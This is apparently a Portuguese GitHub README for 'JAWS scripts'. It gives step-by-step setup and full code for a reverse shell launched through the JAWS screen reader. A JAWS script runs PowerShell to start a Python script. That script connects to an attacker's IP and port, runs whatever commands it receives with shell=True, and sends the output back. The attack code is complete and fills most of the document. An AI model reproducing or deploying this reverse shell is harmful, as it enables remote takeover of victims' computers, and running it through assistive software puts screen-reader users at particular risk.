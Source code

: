 # Scripts para JAWS

Este repositório contém scripts para automatizar tarefas no JAWS (Job Access With Speech) usando uma combinação de scripts JAWS e scripts Python. O principal exemplo fornecido é uma configuração de shell reverso que utiliza o JAWS para iniciar o shell e o Python para estabelecer a conexão reversa.

## Estrutura do Repositório

- `NCPythonCall.jss`: Script JAWS para iniciar o processo de shell reverso.
- `ncat.py`: Script Python para estabelecer a conexão de shell reverso.

## Pré-requisitos

1. **JAWS Screen Reader**: Certifique-se de que o JAWS está instalado na sua máquina.
2. **Python**: Certifique-se de que o Python está instalado e acessível no PATH do sistema.
3. **Conhecimento em Scripting JAWS**: Entendimento básico de scripts JAWS.

## Instalação

### Importando e Usando o Script JAWS

1. **Baixe o Repositório**:
   - Clone ou baixe o repositório a partir do [GitHub](https://github.com/MatheusExner/JAWS_scripts).

2. **Abra o Gerenciador de Scripts JAWS**:
   - Pressione `Insert + 0` para abrir o Gerenciador de Scripts JAWS.

3. **Importe o Script**:
   - No Gerenciador de Scripts, vá em `Arquivo > Abrir` e navegue até o arquivo `NCPythonCall.jss` baixado.
   - Abra o arquivo para visualizar o script.

4. **Compile o Script**:
   - Pressione `Ctrl + Shift + D` para compilar o script.
   - Salve o script compilado com um nome significativo, por exemplo, `NCPythonCall.jsb`.

5. **Atribua um Atalho de Teclado**:
   - Para atribuir um atalho de teclado para executar seu script JAWS, vá em `Script > Modificar Atribuição de Tecla`.
   - Selecione o script `NCPythonCall`, pressione `Ctrl + Shift + K` e atribua um atalho de teclado (por exemplo, `Insert + Q`).

6. **Execute o Script**:
   - Pressione o atalho de teclado atribuído (`Insert + Q`) para executar o script.

### Configurando e Executando o Script Python

1. **Certifique-se de que o Python está Instalado**:
   - Baixe e instale o Python a partir do [site oficial](https://www.python.org/).

2. **Execute o Script Python**:
   - O script JAWS executará automaticamente o script Python se todos os caminhos estiverem corretamente configurados.

3. **Execução Manual (Opcional)**:
   - Para executar manualmente o script Python, abra o Prompt de Comando ou o PowerShell.
   - Navegue até o diretório que contém `ncat.py`.
   - Execute o script usando:
     ```sh
     python ncat.py
     ```

## Script JAWS: `NCPythonCall`

O script JAWS automatiza o processo de verificação dos componentes necessários e execução do script de shell reverso.

```jaws
Script NCPythonCall ()
Say ("Iniciando processo de shell reverso", OT_MESSAGE)

If FileExists ("C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe")
    Say ("powershell existe", OT_MESSAGE)
Else
    Say ("powershell não existe", OT_MESSAGE)
EndIf

If FileExists ("C:\\Users\\Matheus\\Desktop\\ncat.py")
    Say ("script encontrado", OT_MESSAGE)
Else
    Say ("script não encontrado", OT_MESSAGE)
EndIf

Run ("C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe python C:\\Users\\Matheus\\Desktop\\ncat.py")
EndScript
```

## Script JAWS: `NCPythonCall`
O script Python estabelece uma conexão de shell reverso com a máquina especificada do atacante.
```python
import socket
import subprocess

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.0.114", 7890))

while True:
    command = s.recv(1024).decode("utf-8")
    if command.lower() == "exit":
        break
    if command:
        output = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        stdout, stderr = output.communicate()
        response = stdout + stderr
        s.send(response)

s.close()
```

